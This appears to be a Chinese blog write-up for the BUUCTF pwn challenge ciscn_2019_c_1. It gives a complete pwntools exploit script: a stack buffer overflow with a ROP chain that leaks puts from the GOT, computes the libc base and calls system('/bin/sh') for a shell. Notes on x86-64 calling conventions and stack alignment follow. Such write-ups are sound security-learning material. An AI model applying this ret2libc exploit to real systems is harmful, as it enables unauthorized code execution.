 直接上 exp(本地)

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'
sh = process("./ciscn_2019_c_1")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
encrypt_addr = elf.symbols['encrypt']
pop_rdi_ret = 0x0400c83
ret = 0x4006b9

sh.recvuntil(b"Input your choice!\n")
sh.sendline(b'1')

payload = b'A' * (0x50+0x08) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(encrypt_addr)
sh.recvuntil("Input your Plaintext to be encrypted\n")
sh.sendline(payload)
sh.recvuntil("Ciphertext\n")
sh.recvline()
puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
payload2 = b'A' * (0x50+0x08) + p64(ret) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(0)
sh.recvuntil(b"Input your Plaintext to be encrypted\n")
sh.sendline(payload2)
sh.interactive()

```

几个需要注意的点：

- 因为是 64 位，所以前面 6 个参数传参时候需要使用寄存器`rdi,rsi,rdx,rcx,r8,r9`，需要找 ROPgadgets

- payload2 当中的 p64(ret)是为了堆栈平衡防止虚拟机崩溃（崩了八万次了），详情可看[「BUUCTF」Pwn - Rip Ubuntu18 中 64 位 ELF 在调用 system 时候可能出现的问题](https://nova.gal/2021/11/29/BUUCTF-The-problem-I-met-in-RIP/)

# 特别感谢

[Mark 爹](https://blog.mark0519.com)可以说是手把手教了我 GDB 的用法，甚至录了个半小时的视频！直接三个响头的磕 ❤❤❤
